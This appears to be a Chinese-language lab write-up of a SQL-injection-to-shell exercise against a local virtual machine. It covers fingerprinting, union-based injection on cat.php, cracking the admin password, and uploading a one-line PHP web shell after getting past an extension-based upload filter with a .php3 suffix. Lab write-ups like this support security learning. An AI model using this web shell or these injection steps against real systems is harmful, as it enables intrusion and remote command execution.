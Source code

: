 ## 从SQL注入到Shell

###  实验环境说明

- 目标服务器：下载镜像，VirtualBox加载

  ![18](image_sql_in\18.png)

- 攻击者主机（自用）：

  - Burp suite 代理监听所有端口
  - 能直接访问目标服务器![19](image_sql_in\19.png)

### 实验步骤记录

####  Fingerprinting: 采集信息

- HTTP 请求测试

  - telnet

    ![1](image_sql_in\1.png)

  - 浏览器访问 http://10.0.2.15  burp suite劫持

    ![2](image_sql_in\2.png)

  - 由此可以判断目标使用的网络服务器、以及php版本信息

- HTTPS 请求测试 

  - openssl :connect error

  ![20](image_sql_in\20.png)

  - nmap扫描：只有22 ，80 端口开着，所以HTTPS请求不支持

    ![21](image_sql_in\21.png)

- 获取文件目录

  - wfuzz：

    ![3](image_sql_in\3.png)

####  Detection and exploitation of SQL injection:检查并利用SQL注入漏洞

- 发现sql漏洞存在：

  请求 http://10.0.2.15/cat.php?id=3' 发现报错信息 提示语法错误，以及数据库应用为MYSQL

  ![4](image_sql_in\4.png)

- union测试

  通过反复测试，可以知道select语句选择的列有四列

  ![5](image_sql_in\5.png)

- 获取数据库信息

  - 表名，列名：

    - 通过更改显示参数的位置，可以判断出picture:应该取的是第2列的数据进行显示，所以应该将待显示数据，放在第2列的位置
    - 对比排除数据库的基本设置，得到用户自定义的数据库信息

    ![6](image_sql_in\6.png)

  - 版本当前信息

    ![7](image_sql_in\7.png)

  - 以及当前用户名、当前的数据库等各种信息  

    ![8](image_sql_in\8.png)

####  Access to the administration pages and code execution ：进入管理界面，代码执行

- 破解管理员密码

  - 根据上图中的用户名、密码信息，获取管理员密码

    ![10](image_sql_in\10.png)

    ![11](image_sql_in\11.png)

    搜索结果，破解结果都说明管理员密码是P4ssw0rd

- 登录到管理界面

  - 管理界面地址： 根据目录破解的结果 尝试http://10.0.2.15/admin 就会自动跳转到管理界面

    ![22](image_sql_in\22.png)

  - 登录成功，密码正确

- 植入webshell

  - 根据上图中，可以发现管理界面有上传文件功能

  - 创建木马文件

    ```php 
    <?php
      system($_GET['cmd']);
    ?>
    ```

    这段代码的意思是将GET的参数中cmd的内容作为命令执行

  - 上传文件

    ![13](image_sql_in\13.png)

  - 第一次上传shell.php后，提示no php，禁止上传php。尝试将后缀更改为php3，上传成功。说明文件类型的检查是基于后缀名的。

- 利用webshell

  - 访问上传成功的php文件

  - URL可以通过访问http://10.0.2.15/cat.php 然后审查元素获得

    ![14](image_sql_in\14.png)

  - 访问URL，并且传递参数，获得返回

    ![16](image_sql_in\16.png)

  - 获得命令执行权限，攻击结束。